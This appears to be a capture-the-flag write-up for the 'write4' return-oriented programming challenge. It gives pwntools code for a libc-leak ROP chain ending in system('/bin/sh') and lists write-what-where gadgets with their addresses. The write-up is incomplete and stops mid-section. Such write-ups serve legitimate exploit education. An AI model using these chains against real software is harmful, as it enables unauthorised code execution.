

# 3. write4

*We'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.*

-----------------------

First, we check the offset is still the same sending 41 "A" characters:


## 3.1. Libc leakage approach

The first approach is leaking an address of libc to calculate libc base address and then make a system("/bin/sh") call

### Rop 1: Leaking puts address

```
OFFSET = "A"*40
PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
puts_GOT = elf.got["puts"]

rop1 = OFFSET + p64(POP_RDI) + p64(puts_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```

### Calculating libc base address

```
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
libc.address = leak - libc.symbols["puts"]
```

### Rop 2: system("/bin/sh")

```
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)
```


---------------

## 3.2. Write-What-Where Gadgets

"Frequently, you’ll want to use a ROP chain in order to write something into memory. You may want to place the string “/bin/sh” into memory in order to use it as a parameter for system(), or perhaps overwrite a Global Offset Table (GOT) entry in order to redirect execution. (...). 

A common write-what-where gadget is mov <[register]>, <register>. In Intel syntax, this means that the contents of the second register will be placed into the dereferenced pointer stored in the first register. Note the square brackets surrounding the register name, as the square brackets indicate dereferencing.

If you know you’ll want to write something to memory at some point, you may want to start by locating these write-what-where gadgets and then determining if you can control those registers through the use of other gadgets." [source](https://trustfoundry.net/basic-rop-techniques-and-tricks/)

```
mov <[register]>, <register>

mov <[pointer to a writable area of memory]>, <contents you want to write into memory>
```

We can find all these gadgets using:

```
python /root/tools/ROPgadget/ROPgadget.py --binary write4 | grep mov | grep "\["
```


We have these *Write-What-Where* gadgets:

- *mov dword ptr [rsi], edi* (0x0000000000400820)

- *mov qword ptr [r14], r15* (0x0000000000400821)


Then we search for gadgets that could control rsi, edi (rdi), r14 and r15:

- RSI: *pop rsi ; pop r15 ; ret* (0x0000000000400891)

- RDI: *pop rdi ; ret* (0x0000000000400893)

- R14: *pop r14 ; pop r15 ; ret* (0x0000000000400890)

- R15: *pop r15 ; ret* (0x0000000000400892)




Next we will check the different sections of memory:


---------------

Similar ROPs:

- Libc leakage: https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address

- Write in memory: https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf. 

- https://trustfoundry.net/basic-rop-techniques-and-tricks/
